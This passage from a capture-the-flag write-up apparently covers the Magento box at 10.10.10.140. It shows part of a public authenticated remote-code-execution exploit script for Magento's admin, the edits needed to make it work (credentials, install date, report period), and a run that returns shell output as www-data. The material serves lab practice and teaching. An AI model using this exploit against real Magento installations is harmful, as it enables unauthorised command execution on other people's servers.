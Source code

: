       payload = base64.b64encode(payload)
      gh = md5(payload + install_date).hexdigest()
      
      exploit = tunnel + '?ga=' + payload + '&h=' + gh
      
      try:
          request = br.open(exploit)
      except (mechanize.HTTPError, mechanize.URLError) as e:
          print e.read()
      ```
   3. Tweak the exploit:
      ```py
      # [CHANGE]
      username = ''
      password = ''
      # ...
      install_date = 'Sat, 15 Nov 2014 20:27:57 +0000'
      # ...
      request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)

      [TO]
      username = 'forme'
      password = 'forme'
      # ...
      install_date = 'Wed, 08 May 2019 07:23:09 +0000'
      # ...
      request = br.open(url + 'block/tab_orders/period/1y/?isAjax=true', data='isAjax=false&form_key=' + key)
      ```
      > The __`install_date`__ could be found on the Magento config (__`/app/etc/local.xml`__) found earlier.
      
      > It was reuired to change __`.../7d/...`__ to __`.../1y/...`__ since the exploit's query should return a value in order to work and there were no recorded transactions in the Magento service in the past 7 days; however, there were transactions within the year since the box was released and this write-up was posted.
    
      >> Valid options are __`24h`__, __`7d`__, __`1m`__, __`1y`__, and __`2y`__.

   4. Run the exploit:
      ```console
      $ python 37811.py http://10.10.10.140/index.php/admin "id"
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
      ```

---